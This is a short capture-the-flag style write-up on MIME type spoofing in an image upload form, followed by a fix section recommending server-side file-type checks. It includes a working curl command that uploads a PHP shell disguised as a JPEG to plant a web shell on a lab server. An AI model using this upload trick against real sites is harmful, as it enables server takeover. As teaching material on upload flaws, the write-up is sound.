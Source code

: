 ## 13- MIME type spoofing
### How to reproduce :
The image upload page expects an image to be uploaded.
but we can see if we can upload a php script
since we know uploaded images will be stored at `/images`
we expect our shell to be accessible at `/images/shell.php`
and will give us access to a shell
so first, we need to upload this `php` file while making the backend think this is an image
so we use the following curl command:
```BASH
curl \
  -F "MAX_FILE_SIZE=100000" \
  -F "uploaded=@/tmp/shell.php;type=image/jpeg" \
  -F "Upload=true" \
  -X POST \
  "http://10.11.100.253/?page=upload" | grep flag
```
and the backend trusts the `MIME` type we provided and uploads it.
and then we get a flag.
### How to Fix :
Trusting the `MIME` type provided by the user is a bad idea.
you can at least check the file extension `.php`, but an improved way is to used a utility that can
detect the type of a file, like the `file` utility in linux.
```
$ file /tmp/shell.php
/tmp/shell.php: PHP script text, ASCII text
```

